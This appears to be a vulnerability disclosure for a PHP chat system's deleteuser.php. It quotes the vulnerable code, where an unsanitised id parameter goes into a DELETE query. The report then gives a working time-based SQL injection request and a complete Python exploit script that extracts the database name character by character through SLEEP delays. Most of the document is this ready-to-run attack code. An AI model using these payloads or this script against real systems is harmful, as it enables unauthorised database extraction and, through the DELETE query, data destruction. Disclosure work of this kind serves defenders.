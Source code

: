 # chat system has sql injection in deleteuser.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



deleteuser.php



## describe



Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if(isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `user` where userid='$id'");
	}

?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.



There is also a **session** privilege escalation vulnerability, which can be exploited to **bypass** the **session** checks for admin functionalities as a regular user.



## POC

```http
POST /admin/deleteuser.php HTTP/1.1
Host: 127.0.0.1:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 28
Origin: http://127.0.0.1:88
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:88/admin/user.php
Cookie: PHPSESSID=b5htgkjnhs0etvlaida5e47sjq
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=3' or sleep(5) #&del=1
```



Send this request, you can observe an additional 5-second time delay triggered by the time-based injection.



## Exploit

To retrieve the current database name.

```python
import requests
import string
import time
import logging

# Configuration
TARGET_URL = "http://127.0.0.1:88/admin/deleteuser.php"  # URL
SESSION_COOKIE = "PHPSESSID=b5htgkjnhs0etvlaida5e47sjq"  # session ID
DELAY_TIME = 3  # sleep_time
TIME_THRESHOLD = 2.5  # The threshold for determining the delay
MAX_DB_NAME_LENGTH = 32  # The maximum expected length of the database name
CHARSET = ''.join([chr(i) for i in range(32, 127)])  # all ASCII

# log
logging.basicConfig(filename='sql_injection.log', level=logging.INFO,
                    format='%(asctime)s - %(levelname)s - %(message)s')

# Headers
HEADERS = {
    "Host": "127.0.0.1:88",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://127.0.0.1:88",
    "DNT": "1",
    "Sec-GPC": "1",
    "Connection": "keep-alive",
    "Referer": "http://127.0.0.1:88/admin/user.php",
    "Cookie": SESSION_COOKIE,
    "Sec-Fetch-Dest": "empty",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Site": "same-origin",
    "Priority": "u=0",
}

# Function to send payload and measure response time with retry mechanism
def send_payload(payload, retries=3):
    data = {
        "id": payload,
        "del": "1"
    }
    for attempt in range(retries):
        start_time = time.time()
        try:
            response = requests.post(TARGET_URL, headers=HEADERS, data=data, timeout=DELAY_TIME + 5)
            end_time = time.time()
            elapsed = end_time - start_time
            logging.info(f"Payload: {payload} | Response Time: {elapsed:.2f}s")
            print(f"[>] Payload: {payload} | Response Time: {elapsed:.2f}s")
            return elapsed
        except requests.exceptions.Timeout:
            logging.warning(f"Payload caused timeout: {payload} (Attempt {attempt + 1}/{retries})")
            print(f"[!] Payload caused timeout: {payload} (Attempt {attempt + 1}/{retries})")
            if attempt == retries - 1:
                return DELAY_TIME + 1
    return DELAY_TIME + 1

# Function to check if a condition is true based on response delay using IF
def is_condition_true(condition):
    payload = f"3' OR IF({condition}, SLEEP({DELAY_TIME}), 0) #"
    response_time = send_payload(payload)
    return response_time >= TIME_THRESHOLD

# Function to test basic SLEEP injection
def test_sleep():
    payload = "3' OR IF(1=1, SLEEP(3), 0) #"
    print("[*] Testing basic IF(SLEEP) injection...")
    response_time = send_payload(payload)
    if response_time >= DELAY_TIME:
        print("[+] Basic IF(SLEEP) injection works.")
        return True
    else:
        print("[-] Basic IF(SLEEP) injection failed.")
        return False

# Function to determine the length of the database name
def get_db_name_length():
    length = 0
    while length < MAX_DB_NAME_LENGTH:
        condition = f"CHAR_LENGTH(database()) > {length}"
        if is_condition_true(condition):
            length += 1
            print(f"[*] CHAR_LENGTH(database()) > {length - 1} is True")
        else:
            break
    return length

# Function to get a single character at a specific position using binary search
def get_db_char(position):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        condition = f"ASCII(SUBSTRING(database(),{position},1)) > {mid}"
        if is_condition_true(condition):
            low = mid + 1
        else:
            high = mid - 1
    if 32 <= low <= 126:
        return chr(low)
    return None

# Main function to extract the database name
def extract_database_name():
    print("[*] Starting Time-Based Blind SQL Injection to extract database name...")

    # Test basic SLEEP injection
    if not test_sleep():
        print("[-] Basic SLEEP injection failed. Aborting further tests.")
        return

    # Proceed with extracting database name
    db_length = get_db_name_length()
    print(f"[*] Detected database name length: {db_length}")
    db_name = ""
    for position in range(1, db_length + 1):
        char = get_db_char(position)
        if char:
            db_name += char
            print(f"[+] Position {position}: '{char}'")
        else:
            print(f"[-] Failed to determine character at position {position}")
            break
    print(f"\n[+] Extracted Database Name: {db_name}")

if __name__ == "__main__":
    extract_database_name()

```



**Result**

![image-20250101042918832](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101042918832.png)









